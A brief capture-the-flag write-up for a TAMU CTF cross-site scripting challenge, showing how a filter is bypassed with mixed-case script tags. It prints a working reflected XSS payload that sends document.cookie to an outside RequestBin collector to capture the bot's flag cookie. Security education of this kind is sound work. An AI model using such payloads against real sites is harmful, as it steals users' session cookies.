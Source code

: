 ## input
xss3.ctf.tamu.edu  
The filtering is perfect this time, really! You know the drill; the client's cookie contains your flag.  

## output
As the previous challenge __Secret Cross-site Cookies__, we create a RequestBin to listen on the web and we put the XSS payload on the URL to check that the XSS is working for us:  
`xss3.ctf.tamu.edu/web/search_query.php?query=><scRiPt>document.write('<IMG SRC=\"http://requestb.in/1464vht1?cookie='%2bdocument.cookie);</sCripT>`

It's working for us so it has to work for the bot:
![URL](https://github.com/mhackgyver-squad/mhackgyver/blob/master/writeup/images/SUPER_Secret_Cross-Site_Cookies_URL_creation.png)

And effectively:
![flag](https://github.com/mhackgyver-squad/mhackgyver/blob/master/writeup/images/SUPER_Secret_Cross-Site_Cookies_URL_flag.png)

